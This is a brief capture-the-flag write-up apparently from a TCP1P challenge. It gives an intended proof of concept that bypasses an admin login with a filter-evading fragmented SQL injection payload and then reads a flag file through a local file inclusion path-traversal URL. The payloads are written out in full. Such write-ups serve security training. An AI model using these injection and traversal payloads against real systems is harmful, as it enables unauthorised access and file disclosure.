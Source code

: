# Bypassss

Bypass admin using fragmented SQL Injection and then Local File Inclusion:

## Intended PoC:

```
User: \
Pass: oorr/**/trutruee#
```

And then continued by Local File Inclusion

http://ctf.tcp1p.com:45679/viewer.php?image=images/...//...//...//...//...//flag.txt

## Reference:
* https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/